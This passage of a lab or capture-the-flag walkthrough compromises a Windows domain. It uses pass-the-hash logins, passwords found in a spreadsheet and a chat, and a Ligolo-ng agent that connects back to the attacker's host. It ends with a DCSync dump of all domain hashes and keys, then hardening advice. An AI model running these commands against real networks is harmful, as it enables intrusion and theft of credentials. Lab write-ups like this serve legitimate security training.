SMB         10.1.207.33     445    FILESRV01        DEV                             
SMB         10.1.207.33     445    FILESRV01        HR                              
SMB         10.1.207.33     445    FILESRV01        IPC$            READ            Remote IPC
SMB         10.1.150.10     445    MSGSRV01         [+] sern.local\moeka:3db7b1172736f9269dc00118e536a07b 
SMB         10.1.150.10     445    MSGSRV01         [*] Enumerated shares
SMB         10.1.150.10     445    MSGSRV01         Share           Permissions     Remark
SMB         10.1.150.10     445    MSGSRV01         -----           -----------     ------
SMB         10.1.150.10     445    MSGSRV01         ADMIN$                          Remote Admin
SMB         10.1.150.10     445    MSGSRV01         C$                              Default share
SMB         10.1.150.10     445    MSGSRV01         IPC$            READ            Remote IPC
```



*Validating moeka credentials with NetExec*

The hash authenticates as `sern.local\moeka` on all three hosts, so the local account on FILESRV01 and the domain account share a password.

## Shell as moeka

We check where `moeka` can reach over WinRM.

```
nxc winrm hosts.txt -u 'moeka' -H '3db7b1172736f9269dc00118e536a07b'
```

```
WINRM       10.1.207.33     5985   FILESRV01        [*] Windows Server 2022 Build 20348 (name:FILESRV01) (domain:sern.local) 
WINRM       10.1.33.51      5985   DC01             [*] Windows Server 2022 Build 20348 (name:DC01) (domain:sern.local) 
WINRM       10.1.150.10     5985   MSGSRV01         [*] Windows Server 2022 Build 20348 (name:MSGSRV01) (domain:sern.local) 
WINRM       10.1.207.33     5985   FILESRV01        [-] sern.local\moeka:3db7b1172736f9269dc00118e536a07b
WINRM       10.1.33.51      5985   DC01             [-] sern.local\moeka:3db7b1172736f9269dc00118e536a07b
WINRM       10.1.150.10     5985   MSGSRV01         [+] sern.local\moeka:3db7b1172736f9269dc00118e536a07b (Pwn3d!)
```



*NetExec WinRM check across all three hosts, with moeka marked (Pwn3d!) on MSGSRV01*

`moeka` can open a shell on MSGSRV01, and BloodHound shows nothing useful from the account. We log in to MSGSRV01 over WinRM with `moeka`'s NT hash.

```
evil-winrm -i '10.1.150.10' -u 'moeka' -H '3db7b1172736f9269dc00118e536a07b'
```

We list `moeka`'s Desktop.

```
dir
```

```
    Directory: C:\Users\moeka\Desktop


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         10/8/2026   7:38 AM           2308 Microsoft Edge.lnk
-a----         10/8/2026   7:59 AM          31744 reminders.xls
```

The Desktop holds a `reminders.xls` file, and we download it.

```
download reminders.xls
```

```
Info: Downloading C:\Users\moeka\Desktop\reminders.xls to reminders.xls
                                        
Info: Download successful!
```

Opened on our machine, the spreadsheet holds two credentials, each with a label.

```
My Credentials
moeka
SoTextMeMaybe2026!
computer and chat

roundertexter
Password123!Oops
gaming account
```



*reminders.xls open, with moeka's computer and chat credentials and a gaming account*

We list `C:\Program Files` on MSGSRV01.

```
dir
```

```
    Directory: C:\Program Files

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----        10/13/2026  11:56 AM                Amazon
d-----         5/21/2026   9:16 AM                Common Files
d-----         9/26/2026   8:31 PM                Internet Explorer
d-----          5/8/2021   1:20 AM                ModifiableWindowsApps
d-----        11/15/2026  12:28 PM                Output Messenger Server
d-----        10/13/2026  11:45 AM                VMware
d-----         9/26/2026   7:06 PM                Windows Defender
d-----         9/26/2026   8:31 PM                Windows Defender Advanced Threat Protection
d-----         9/26/2026   8:31 PM                Windows Mail
d-----         9/26/2026   8:31 PM                Windows Media Player
d-----          5/8/2021   2:35 AM                Windows NT
d-----         9/26/2026   8:31 PM                Windows Photo Viewer
d-----          5/8/2021   1:34 AM                WindowsPowerShell
```

It holds an `Output Messenger Server` folder, which fits a host named MSGSRV01, so the chat credentials in the spreadsheet look like they belong to the Output Messenger server.

We list the ports the host listens on across every interface.

```
netstat -ano | findstr "0.0.0.0"
```

```
  TCP    0.0.0.0:135            0.0.0.0:0              LISTENING       936
  TCP    0.0.0.0:445            0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:3389           0.0.0.0:0              LISTENING       364
  TCP    0.0.0.0:5985           0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:14118          0.0.0.0:0              LISTENING       3936
  TCP    0.0.0.0:14119          0.0.0.0:0              LISTENING       3936
  TCP    0.0.0.0:14121          0.0.0.0:0              LISTENING       3936
  TCP    0.0.0.0:14122          0.0.0.0:0              LISTENING       3936
  TCP    0.0.0.0:14123          0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:14124          0.0.0.0:0              LISTENING       2312
  TCP    0.0.0.0:14131          0.0.0.0:0              LISTENING       3192
  TCP    0.0.0.0:14132          0.0.0.0:0              LISTENING       3936
  TCP    0.0.0.0:14133          0.0.0.0:0              LISTENING       3936
  TCP    0.0.0.0:14135          0.0.0.0:0              LISTENING       3936
  TCP    0.0.0.0:47001          0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:49664          0.0.0.0:0              LISTENING       700
  TCP    0.0.0.0:49665          0.0.0.0:0              LISTENING       536
  TCP    0.0.0.0:49666          0.0.0.0:0              LISTENING       1104
  TCP    0.0.0.0:49667          0.0.0.0:0              LISTENING       700
  TCP    0.0.0.0:49668          0.0.0.0:0              LISTENING       252
  TCP    0.0.0.0:49669          0.0.0.0:0              LISTENING       1840
  TCP    0.0.0.0:49672          0.0.0.0:0              LISTENING       680
  TCP    10.1.150.10:139        0.0.0.0:0              LISTENING       4
  UDP    0.0.0.0:123            *:*                                    1096
  UDP    0.0.0.0:3389           *:*                                    364
  UDP    0.0.0.0:5353           *:*                                    1196
  UDP    0.0.0.0:5355           *:*                                    1196
  UDP    0.0.0.0:14124          *:*                                    2312
  UDP    0.0.0.0:14129          *:*                                    3936
  UDP    0.0.0.0:54827          *:*                                    1196
  UDP    0.0.0.0:56073          *:*                                    1196
```



*The listening ports on MSGSRV01, with Output Messenger's 14121 to 14123 bound on every interface*

Output Messenger's documentation lists 14121 for the application, 14122 for file transfer, and 14123 for the web server behind its browser version. All three are listening on every interface.

## Output Messenger Access

Port 14123 is bound on every interface but does not appear in our RustScan results, so something on the host is filtering it from outside. Ligolo-ng presents the target's network as a route on our own machine. The proxy runs on our host, the agent runs on the target and connects back to it, and traffic sent to a dedicated interface is forwarded through that connection and out of the agent. Routing `240.0.0.1` to that interface reaches the agent's own loopback, so we come at port 14123 from the host itself rather than across the filter.

We start the proxy on our host, create the interface, and add the route.

```
sudo ./proxy -selfcert
```

```
ifcreate --name messenger
route_add --name messenger --route 240.0.0.1/32
```

We serve the agent from an SMB share on our host and copy it down in the `moeka` session on MSGSRV01.

```
impacket-smbserver share ./ -smb2support
```

```
copy \\10.200.121.154\share\agent.exe .
```

Then we run it, connecting back to the proxy.

```
./agent.exe -connect 10.200.121.154:11601 --ignore-cert
```

```
agent.exe : time="2026-11-20T18:04:41-08:00" level=warning msg="warning, certificate validation disabled"
    + CategoryInfo          : NotSpecified: (time="2026-11-2...ation disabled":String) [], RemoteException
    + FullyQualifiedErrorId : NativeCommandError
time="2026-11-20T18:04:41-08:00" level=info msg="Connection established" addr="10.200.121.154:11601"
```



*The Ligolo-ng agent connecting back to the proxy from the moeka Evil-WinRM session on MSGSRV01*

PowerShell wraps the agent's certificate warning in an error record, but the last line shows the connection to the proxy is up. We select the session and start the tunnel.

```
session
1    # select the agent session at the prompt
tunnel_start --tun messenger
```



*The Ligolo-ng tunnel running on the messenger interface with the 240.0.0.1 route*

The web client is now reachable at `http://240.0.0.1:14123` in Firefox, and the computer and chat credentials from the spreadsheet log us in as `moeka`.

## Access as braun

The last three messages in the Helpdesk room carry the credentials for joining new lab computers to the domain, shown here with the blank lines from the copy removed and each sender and time separated.

```
FB Says, Oct 09, 11:51 AM
Use the following when asked for credentials to join the new lab computers to the domain:
FB Says, Oct 09, 11:51 AM
Braun
FB Says, Oct 09, 11:52 AM
Password: ILov3CRTBr4unTube!
```



*The help desk chat in Output Messenger, with braun's domain join password*

We test `braun` with that password across the hosts.

```
nxc smb hosts.txt -u 'braun' -p 'ILov3CRTBr4unTube!' --shares
```

```
SMB         10.1.33.51      445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:sern.local) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.1.207.33     445    FILESRV01        [*] Windows Server 2022 Build 20348 x64 (name:FILESRV01) (domain:sern.local) (signing:False) (SMBv1:None)
SMB         10.1.33.51      445    DC01             [+] sern.local\braun:ILov3CRTBr4unTube! 
SMB         10.1.207.33     445    FILESRV01        [+] sern.local\braun:ILov3CRTBr4unTube! 
SMB         10.1.33.51      445    DC01             [*] Enumerated shares
SMB         10.1.33.51      445    DC01             Share           Permissions     Remark
SMB         10.1.33.51      445    DC01             -----           -----------     ------
SMB         10.1.33.51      445    DC01             ADMIN$                          Remote Admin
SMB         10.1.33.51      445    DC01             C$                              Default share
SMB         10.1.33.51      445    DC01             IPC$            READ            Remote IPC
SMB         10.1.33.51      445    DC01             NETLOGON        READ            Logon server share 
SMB         10.1.33.51      445    DC01             SYSVOL          READ            Logon server share 
SMB         10.1.150.10     445    MSGSRV01         [*] Windows Server 2022 Build 20348 (name:MSGSRV01) (domain:sern.local) (signing:False) (SMBv1:None)
SMB         10.1.207.33     445    FILESRV01        [*] Enumerated shares
SMB         10.1.207.33     445    FILESRV01        Share           Permissions     Remark
SMB         10.1.207.33     445    FILESRV01        -----           -----------     ------
SMB         10.1.207.33     445    FILESRV01        ADMIN$                          Remote Admin
SMB         10.1.207.33     445    FILESRV01        C$                              Default share
SMB         10.1.207.33     445    FILESRV01        DEV                             
SMB         10.1.207.33     445    FILESRV01        HR                              
SMB         10.1.207.33     445    FILESRV01        IPC$            READ            Remote IPC
SMB         10.1.150.10     445    MSGSRV01         [+] sern.local\braun:ILov3CRTBr4unTube! 
SMB         10.1.150.10     445    MSGSRV01         [*] Enumerated shares
SMB         10.1.150.10     445    MSGSRV01         Share           Permissions     Remark
SMB         10.1.150.10     445    MSGSRV01         -----           -----------     ------
SMB         10.1.150.10     445    MSGSRV01         ADMIN$                          Remote Admin
SMB         10.1.150.10     445    MSGSRV01         C$                              Default share
SMB         10.1.150.10     445    MSGSRV01         IPC$            READ            Remote IPC
```



*Validating braun credentials with NetExec*

`braun` authenticates on all three hosts. BloodHound shows the account holds `WriteDacl` over the `sern.local` domain object.



*BloodHound WriteDacl: braun over sern.local*

## NTDS Dump

`WriteDacl` lets us rewrite the domain object's DACL, so we grant `braun` the two replication rights DCSync needs, `DS-Replication-Get-Changes` and `DS-Replication-Get-Changes-All`. dacledit's `-rights DCSync` writes both.

```
impacket-dacledit -action 'write' -rights 'DCSync' -principal 'braun' -target-dn 'DC=SERN,DC=LOCAL' 'sern.local'/'braun':'ILov3CRTBr4unTube!'
```

```
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

/usr/share/doc/python3-impacket/examples/dacledit.py:390: DeprecationWarning: codecs.open() is deprecated. Use open() instead.
  with codecs.open(self.filename, 'w', 'utf-8') as outfile:
[*] DACL backed up to dacledit-20261120-212103.bak
[*] DACL modified successfully!
```



*dacledit granting braun DCSync rights on the sern.local domain object*

impacket-secretsdump asks the DC to replicate every account over DRSUAPI, the same way domain controllers sync with each other, rather than reading NTDS.dit off disk. That is why replication rights on the domain are all we need.

```
impacket-secretsdump 'sern.local'/'braun':'ILov3CRTBr4unTube!'@'10.1.33.51'
```

```
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:9fff01c23d9f670194854a646b6eb554:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:6bc2422007bdea14c2d4fdccbd62ea5b:::
sern.local\kyoma:1103:aad3b435b51404eeaad3b435b51404ee:8cbaf9ac7a9ff0a444d5650fca28fb19:::
sern.local\nae:1104:aad3b435b51404eeaad3b435b51404ee:52abaae6616d01cb734374b629a5d300:::
sern.local\moeka:1105:aad3b435b51404eeaad3b435b51404ee:3db7b1172736f9269dc00118e536a07b:::
sern.local\braun:1108:aad3b435b51404eeaad3b435b51404ee:6b1ee8251afba38f7f229790208d5df3:::
sern.local\svc_backup:1109:aad3b435b51404eeaad3b435b51404ee:657cb4636d414ea736a7c60347d6401f:::
DC01$:1000:aad3b435b51404eeaad3b435b51404ee:11a597810a91b2f242a6ee1143204c22:::
FILESRV01$:1111:aad3b435b51404eeaad3b435b51404ee:d9420dc6de413808a7a39ac4ab99b999:::
MSGSRV01$:1112:aad3b435b51404eeaad3b435b51404ee:80f48af56d6708937b174e976aca87f3:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:73c1fef68b5df810d73eed615d3ec8caaca0e3c98c0bf42e68c3239760a66fbe
Administrator:aes128-cts-hmac-sha1-96:8ba6ede35f2f078e7773251fa647e451
Administrator:des-cbc-md5:0216730d02da46ea
krbtgt:aes256-cts-hmac-sha1-96:dd27975348252878b2313df5613c55596e45aeea562741fdfa70069803138056
krbtgt:aes128-cts-hmac-sha1-96:b3fff0a590664b31e11e703771de8ee5
krbtgt:des-cbc-md5:f4f1cb2ad3492525
sern.local\kyoma:aes256-cts-hmac-sha1-96:f4738b8b1b6fe82474e9f382cbb1934bfc88f68862a6267cd28417b5ae00bba1
sern.local\kyoma:aes128-cts-hmac-sha1-96:4c4bfe77f663e4b2e823119fc7c8c705
sern.local\kyoma:des-cbc-md5:2a3461cdc152ab51
sern.local\nae:aes256-cts-hmac-sha1-96:17d463419406314bfea63e142d4ecb2d123225bd946c72c267b95bb6ad286133
sern.local\nae:aes128-cts-hmac-sha1-96:7cbda35c7536d8a10c9da8585a8e48a6
sern.local\nae:des-cbc-md5:d376a1730db61592
sern.local\moeka:aes256-cts-hmac-sha1-96:ad7612d345a738b8a5b26f3d33e7a9c2de4572559242d3c8e5949334b69a4414
sern.local\moeka:aes128-cts-hmac-sha1-96:fb2acc9f9d5efcd42befc74afd8f8017
sern.local\moeka:des-cbc-md5:38c78915fd920431
sern.local\braun:aes256-cts-hmac-sha1-96:d3e81050000827dbde67ae351020736f44f239aee6e4c6b5a1c7209eb92dcb7d
sern.local\braun:aes128-cts-hmac-sha1-96:dcde5b0c0f35ce33f8fcc3d05c7e7138
sern.local\braun:des-cbc-md5:04d6624354457346
sern.local\svc_backup:aes256-cts-hmac-sha1-96:95234701b05dce881c28924121b6c3a6ae1b097287ded567dcf97c0b3b97135d
sern.local\svc_backup:aes128-cts-hmac-sha1-96:16024cb23f48f27cda3c9d2d20369685
sern.local\svc_backup:des-cbc-md5:68cb5ef408e35b6e
DC01$:aes256-cts-hmac-sha1-96:771929a547c0971ef8f5a73dddd926f0af03e992b32cb0d0bdc70d3b383cdfcd
DC01$:aes128-cts-hmac-sha1-96:aa4d274a53d36650d3c7e07f914f5a9c
DC01$:des-cbc-md5:7f08e680adadb53b
FILESRV01$:aes256-cts-hmac-sha1-96:d447c77d7fdbe4d197d75d489ceecd820504ca928fdcd33c30cd1ad0547fb8a6
FILESRV01$:aes128-cts-hmac-sha1-96:9fb662c6687108b5ed2c96b708996294
FILESRV01$:des-cbc-md5:31fd490419df499d
MSGSRV01$:aes256-cts-hmac-sha1-96:dc7c3e956b131de470b2f053a39736e676e53136a699cedd5ee66234f7a7891c
MSGSRV01$:aes128-cts-hmac-sha1-96:0f7ae8893afa68d63560513011d4bf00
MSGSRV01$:des-cbc-md5:ad109bf8cdbc1cd6
[*] Cleaning up...
```



*DCSync as braun with impacket-secretsdump, with the Administrator hash recovered*

secretsdump's remote registry step fails because it needs local admin, but replication does not, so every account's hash comes back. The dump gives us the `Administrator` NT hash `9fff01c23d9f670194854a646b6eb554`.

## Shell as Administrator (root.txt)

We log in to DC01 over WinRM with `Administrator`'s NT hash.

```
evil-winrm -i '10.1.33.51' -u 'administrator' -H '9fff01c23d9f670194854a646b6eb554'
```



*The Evil-WinRM session on DC01 as Administrator with root.txt listed on the desktop*

We have a shell on DC01 as the domain Administrator. `root.txt` is on the Administrator's desktop.

## Final Thoughts

The hive backup took a second attempt. When `reg save` failed in the RunasCs shell, I backed the hives up over the network instead.

Service accounts with SPNs belong on gMSA or a PAM-managed password, so a roasted ticket produces nothing crackable. A password typed on a command line or saved in a script belongs in a credential prompt or a vault. Backup Operators on a server can read its SAM and LSA secrets, so a service account has no place in it, and a local account's password should never double as a domain password. Credentials belong in a password manager, not a spreadsheet or a chat history. `svc_backup` held `GenericWrite` and `AddSelf` over File Management and `braun` held `WriteDacl` over the domain, and object-level rights like these need auditing on a schedule rather than at build time.

— 0xB1rd
